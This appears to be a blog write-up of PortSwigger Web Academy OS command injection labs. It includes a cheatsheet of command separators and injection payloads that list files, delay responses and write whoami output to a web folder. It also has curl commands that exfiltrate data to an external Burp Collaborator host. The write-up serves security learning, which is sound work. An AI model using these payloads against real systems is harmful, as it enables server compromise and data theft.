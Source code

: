 ```yaml
---
title: OS Command Injection
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-10-03 09:00:00 +0200
categories: [Web Application, OS Command Injection]
tags: [Notes, Web Application, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the OS Command Injection vulnerabilities.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/os-command-injection) Labs, but i do intent do throw other labs and writeups here as well.

## TOC

- [Intro](#intro)
  - [TOC](#toc)
- [Cheatsheet - termination](#cheatsheet---termination)
- [OS command injection, simple case](#os-command-injection-simple-case)
- [Blind OS command injection with time delays](#blind-os-command-injection-with-time-delays)
- [Blind OS command injection with output redirection](#blind-os-command-injection-with-output-redirection)
- [Blind OS command injection with out-of-band interaction](#blind-os-command-injection-with-out-of-band-interaction)
- [Blind OS command injection with out-of-band data exfiltration](#blind-os-command-injection-with-out-of-band-data-exfiltration)

# Cheatsheet - termination
```
- &
- &&
- |
- ||
- ;
- Newline (0x0a or \n)
- ` (inline execution) `
- injected command 
- $(injected command)
```
Previous input may be needed to be terminated using quotes, either single or double!

# OS command injection, simple case
>  This lab contains an OS command injection vulnerability in the product stock checker.
> 
> The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
> 
> To solve the lab, execute the whoami command to determine the name of the current user. 

We get a simple app to start with. If we go on a product and scroll to the bottom then we can check the stock there:

![picture 153](/assets/images/5feaeb51169382f90124a2edf9b30eb51e697fe9befb7e4f7b6ef6b870ce2f51.png)  

If we click on `Check Stock`, POST request will be sent out

![picture 154](/assets/images/324cdadc8dbdc9d878d7bbee84d74fdf1b0fc0c43b38cb32970eaa7a2e0c2af7.png)  

There is no sanitization present and the script will be ran on the OS. We can run any command, e.g., `&& ls -la #`

![picture 155](/assets/images/a8e50aa6ec8a4eedc1b93f883b1f756642358b870c9c7ecc60b321b9cb06b60f.png) 

# Blind OS command injection with time delays
>  This lab contains a blind OS command injection vulnerability in the feedback function.
> 
> The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.
> 
> To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay. 

In this lab, we will see no output from the application, and we should cause a delay. We could do sleep 10 or some othe command like ping that runs longer.

Vulnerability is present in the `Submit Feedback`.

![picture 158](/assets/images/82a850b9118dffcd68fd4b73d9839ca80ae999f90d5a04dd005a1eafefc4e911.png)  

OS Injection was done in `email` parameter: `email=email%40email.cm%26+sleep+10+%23` or unencoded `email=email@email.cm& sleep 10 #`

![picture 157](/assets/images/bcecc3d03ca0b62a7492eee8ea655446086f4bbdc772407cb80dcddeeebe5c60.png)  

# Blind OS command injection with output redirection

>  This lab contains a blind OS command injection vulnerability in the feedback function.
> 
> The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:
> `/var/www/images/`
>
> The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.
> 
> To solve the lab, execute the whoami command and retrieve the output. 

This lab will be interessting as we have to write output to the file. 

First simply test if we have an OS injection. I've used simple sleep again: `csrf=nIGTkly4lit9MZDY3vDoYVKDJMAjyAWQ&name=a&email=b@A.com%26sleep+5+%23&subject=c&message=d`, with payload (unencoded): `&sleep 5 #`.

To solve the lab, save the whoami output to the writable directory `/var/www/images`. Payload (unencoded): `email=b@A.com&whoami>/var/www/images/whoami.out #`.

Success with reading the file using `/image?filename=whoami.out`. How to read the file can be determined by observing the source code. This is how other images are read and displayed.

![picture 159](/assets/images/acc06e3ae7ffa8080b68e2b2bc06d7a169e629ba41177c9a4a768cc2a61b8f3b.png)  

# Blind OS command injection with out-of-band interaction

>  This lab contains a blind OS command injection vulnerability in the feedback function.
> 
> The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
> 
> To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

This lab looks like the ones above, injection point however is in the email paramter on the feedback form and can be achieved like this

```
csrf=ECWUj4AxoEgQQ8bEHffDFlgZ53b9gXuc&name=1&&email=test%40test.de%|`curl+http://b5hgyt5dzs0yckok2u6vgk2kqbw2k08p.oastify.com`&subject=3&message=4
```

# Blind OS command injection with out-of-band data exfiltration

>  This lab contains a blind OS command injection vulnerability in the feedback function.
> 
> The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
> 
> To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

In this lab we have to run `whoami` command and exfiltrate it to our server. 

Injection point is the same like in the lab above!

We can run subcommand in subcommand like this:

```
...email=test%40test.de|$(curl+http://`whoami`.b5hgyt5dzs0yckok2u6vgk2kqbw2k08p.oastify.com)...
```
